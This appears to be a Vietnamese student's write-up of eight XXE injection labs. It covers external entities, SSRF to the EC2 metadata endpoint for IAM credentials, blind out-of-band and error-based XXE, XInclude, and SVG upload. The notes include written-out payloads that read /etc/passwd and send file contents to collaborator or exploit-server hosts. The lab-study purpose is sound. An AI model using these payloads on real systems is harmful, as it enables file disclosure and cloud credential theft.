



# XXE injection

# 1. Tổng quan:

XML External Entity Injection (XXE) là một lỗ hổng web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Lỗ hổng này thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống phụ trợ hoặc hệ thống bên ngoài nào mà ứng dụng có thể truy cập.
XXE có thể dẫn đến (Server-Side Request Forgery - SSRF).

# 2. Mức độ phổ biến của XXE:

Lỗ hổng **XXE (XML External Entity)** từng là một trong những lỗ hổng bảo mật nghiêm trọng nhất trong các ứng dụng web và hệ thống xử lý XML. Tuy nhiên, mức độ phổ biến của nó đã thay đổi theo thời gian do các biện pháp bảo mật ngày càng được cải thiện.

OWASP (Open Web Application Security Project) đã xếp XXE vào danh sách Top 10 lỗ hổng bảo mật phổ biến nhất năm 2017 (OWASP Top 10 - 2017)

**Nguyên nhân giảm độ phổ biến:**

- JSON dần thay thế XML trong nhiều ứng dụng web
- Các thư viện xử lý XML hiện đại thường **tắt hỗ trợ External Entities mặc định**
- Nhận thức bảo mật về XXE đã tăng lên

Vẫn nguy hiểm trong các hệ thống cũ:

- SOAP APIs, Web Services vẫn sử dụng XML
- Máy chủ, hệ thống IoT, hệ thống doanh nghiệp có thể xử lý XML mà không kiểm soát chặt chẽ

# 3. Ghi chú:

**XML Parser** là một công cụ hoặc thư viện dùng để **phân tích (parse), xử lý và trích xuất dữ liệu từ XML** theo một định dạng có cấu trúc. Nó chuyển đổi XML từ dạng văn bản thuần túy sang một mô hình dữ liệu có thể sử dụng trong các chương trình phần mềm.

XML Parser là một thành phần quan trọng trong **các hệ thống web, API, cơ sở dữ liệu và phần mềm doanh nghiệp**, vì XML thường được sử dụng để **truyền tải và lưu trữ dữ liệu**.

Loại XML Parser phổ biến: **DOM Parser** 

# 4. Practice:

# Lab1: Exploiting XXE using external entities to retrieve files

Trong lab này "Check stock" sử dụng XML praser để trả về giá trị bất kỳ trong response. Để hoàn thành lab cần phải inject XML external entity và lấy thông tin từ /etc/passwd

XML external entity có dạng:

Trong XML, DOCTYPE cho phép định nghĩa External Entity
Nếu không có DOCTYPE, không thể khai báo ENTITY

## Root cause:

XML Parser **không tắt tính năng xử lý External Entities**, dẫn đến việc **cho phép tải dữ liệu từ nguồn bên ngoài**.

## Cách khai thác:

Khi muốn check stock, client sẽ gửi 1 request có XML format đến server để lấy thông tin stock

Chọn request POST check stock, vào burp repeater

Inject XML external entity:

Paload: <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

Giải thích: tạo một External Entity trong DOCTYPE là xxe cho phép tham chiếu đến /etc/passwd.

Khi XML parser gặp &xxe; , nó sẽ tải nội dung file /etc/passwd và thay thế vào vị trí đó.

Kết quả:

# **Lab2: Exploiting XXE to perform SSRF attacks**

Trong lab này "Check stock" sử dụng XML praser để trả về giá trị bất kỳ trong response. Server đang chạy 1 EC2 endpoint tại URL mặc định là [`http://169.254.169.254](http://169.254.169.254/)/` .Endpoint này có thể được sử dụng để truy xuất dữ liệu, một số trong đó có thể là thông tin nhạy cảm. Để hoàn thành lab cần khai thác XXE để thực hiện SSRF nhằm lấy khóa truy cập IAM của server từ endpoint EC2

EC2 là gì?

- **EC2 (Elastic Compute Cloud)** là dịch vụ máy chủ ảo trên nền tảng **AWS (Amazon Web Services)**. Nó cho phép **tạo, chạy, quản lý** các máy chủ (instance) trên đám mây mà không cần đầu tư vào phần cứng thực tế.
- **EC2 Metadata Endpoint** là một API nội bộ trong EC2, giúp lấy thông tin về instance như IAM credentials, user data, security groups

## Root cause:

- XML Parser **không tắt tính năng xử lý External Entities**, dẫn đến việc **cho phép tải dữ liệu từ nguồn bên ngoài**.
- **EC2 Metadata API (`169.254.169.254`) có thể truy cập từ bên trong EC2 mà không cần xác thực.**

## Cách khai thác:

Metadata của EC2 có thể được truy cập thông qua: [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)

Sau khi truy cập vào sau thêm, ta đã có được security-credentials của admin

# **Blind XXE vulnerabilities**

# **Lab3: Blind XXE with out-of-band interaction**

Trong lab này "Check stock" sử dụng XML praser sẽ không hiển thị kết quả gì trong response (B**lind XXE**). Để hoàn thành bài lab cần gửi một payload XML có chứa **external entity** trỏ đến Burp Collaborator

## **Root cause:**

XML Parser **không tắt tính năng xử lý External Entities**, dẫn đến việc **cho phép tải dữ liệu từ nguồn bên ngoài**.

## Cách khai thác:

Vào Burp Collaborator —> copy to clipboard, ta sẽ có: [ao2pw11qzwh6ci8suzqcmyu1ksqjeb20.oastify.com](http://ao2pw11qzwh6ci8suzqcmyu1ksqjeb20.oastify.com/)

Vào repeater, gửi payload có chứa **external entity** trỏ đến Burp Collaborator

Nếu server có bị XXE thì sẽ có DNS lookup and HTTP request trong Burp Collaborator

# **Lab4: Blind XXE with out-of-band interaction via XML parameter entities**

Trong lab này "Check stock" sử dụng XML praser sẽ không hiển thị kết quả gì trong response và block các request có chứa external entity thông thường. Để hoàn thành bài lab cần gửi một payload XML có chứa XML **Parameter Entity** trỏ đến Burp Collaborator

XML **Parameter Entity** là một loại entity đặc biệt được định nghĩa trong **DTD** (**Document Type Definition**) và chỉ có thể được sử dụng bên trong **DTD**, không thể dùng trực tiếp trong nội dung XML.

Cú pháp và ví dụ:

<!ENTITY % myEntity "Hello, world!">

—> có dấu % trước entity

—> Không thể gọi `&myEntity;` trực tiếp trong nội dung XML

## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

## Cách khai thác:

Vào repeater, gửi payload có chứa **Parameter entity** trỏ đến Burp Collaborator

payload: <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "burp-collaborator"> %xxe; ]>

# **Lab5: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

Trong lab này "Check stock" sử dụng XML praser sẽ không hiển thị kết quả gì trong response và block các request có chứa external entity thông thường. Để hoàn thành bài lab cần lấy thông tin từ /etc/hostname

## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

## Cách khai thác:

Go to exploit server, sửa Body thành:

Giải thích: 

Tạo thực thể Parameter Entity %file; trỏ đến /etc/hostname, giúp đọc nội dung file đó.
Tạo thực thể %eval;, nó không chứa dữ liệu mà chỉ là một thực thể trung gian, khai báo một thực thể khác là %exfiltrate;.
&#x25; là ký tự % được mã hóa Unicode, giúp tránh lỗi khi khai báo.

Tạo thực thể %exfiltrate;, trỏ đến một URL của attacker, có tham số chứa %file;.
Khi %exfiltrate; được mở rộng, nội dung của /etc/hostname sẽ được gửi đi qua HTTP request.

Gọi thực thể %eval;, mục đích là:
Parser sẽ mở rộng %eval;, từ đó khai báo %exfiltrate; ngay sau khi %file; đã có dữ liệu đầy đủ.
Nếu gọi trực tiếp %exfiltrate;, %file; chưa được mở rộng, dẫn đến lỗi.

Vào repeater, gửi payload có chứa **Parameter entity** trỏ đến exploit server:

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "aaaaaaaaaaa"> %xxe; ]>

Vào phần access log của exploit server, ta sẽ thấy được thông tin /etc/hostname được lấy thông qua thực thể file

# **Lab6: Exploiting blind XXE to retrieve data via error messages**

Một cách tiếp cận khác để khai thác Blind XXE là kích hoạt XML parsing error, trong thông báo lỗi chứa các dữ liệu quan trọng. Để hoàn thành lab cần sử dụng external DTD để kích hoạt thông báo lỗi hiển thị nội dung của tệp /etc/passwd

## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

Server không có cơ chế chặn lỗi chi tiết, khiến thông tin từ hệ thống có thể bị rò rỉ qua error message.

## Cách khai thác:

Go to exploit server, sửa Body thành:

Khi thực hiện request sẽ xảy ra lỗi vì lmaoo không tồn tại nhưng vẫn lấy được /etc/passwd từ thực thể file

Request payload: <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "exploit-server"> %xxe; ]>

# **Finding hidden attack surface for XXE injection**

# **Lab7: Exploiting XInclude to retrieve files**

Trong lab này "Check stock" nhúng input của user vào một XML document phía máy chủ, sau đó được phân tích cú pháp

Do user không có quyền truy cập XML document nên ko thể định nghĩa DTD và thực hiện XXE như thông thường thường

Để hoàn thành lab cần chèn XInclude và lấy thông tin từ /etc/passwd

XInclude là gì?
XInclude (XML Inclusions) là một cơ chế cho phép chèn nội dung từ một tài liệu XML khác vào tài liệu XML hiện tại. Điều này giúp tái sử dụng nội dung và quản lý dữ liệu XML một cách linh hoạt.

## Root Cause:

XML Parser cho phép XInclude

Server nhận input đầu vào từ user mà không lọc hoặc kiểm tra nội dung.

## Cách khai thác:

Có thể thấy ta không thể xem và chỉnh sửa XML của request

Nhưng nếu Server không chặn XInclude, ta có thể thử chèn 1 payload XInclude vào parameter productId

Giải thích:
Khi XML Parser thấy **`xmlns:xi="[http://www.w3.org/2001/XInclude](http://www.w3.org/2001/XInclude)"`**, nó sẽ hiểu rằng **`xi:include`** là một thành phần của XInclude.
Namespace **`http://www.w3.org/2001/XInclude`** giúp phân biệt XInclude với các phần tử XML khác để tránh nhầm lẫn.

**`href="file:///etc/passwd"`** chỉ định rằng XML parser cần đọc nội dung của file **`/etc/passwd`**
Nếu XML Parse có quyền truy cập nội dung [file:///etc/passwd](file:///etc/passwd) thì thông tin passwd sẽ đc chèn vào <xi:include>

Payload: 

<foo xmlns:xi="[http://www.w3.org/2001/XInclude](http://www.w3.org/2001/XInclude)">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

Chèn vào productId và Unicode encode:

# **Lab8: Exploiting XXE via image file upload**

Trong lab này, server cho phép user upload hình ảnh avatar trong mục comments. Để hoàn thành lab cần upload 1 hình ảnh với SVG format để hiển thị thông tin của /etc/hostname

Hình ảnh có SVG format sử XML, vì vậy ta có thể upload 1 fle .svg chứa code XML để thực hiện XXE. Code sẽ được kích hoạt khi Apache Batik sử lý file svg đã upload lên

## Root Cause:

Lỗ hổng này xảy ra do **Apache Batik**, một thư viện xử lý SVG, **không chặn việc thực thi XML External Entities (XXE)** khi phân tích file SVG.
Server cho phép upload các file hình ảnh khác ngoài PNG hay JPEG

## Cách khai thác:

Tạo 1 file .svg với code XML để lấy thông tin từ /etc/hostname

Server cần namespace [http://www.w3.org/2000/svg](http://www.w3.org/2000/svg) 

Upload file lên avatar.svg lên server

Kết quả:

hostname: f5d8a50d2151

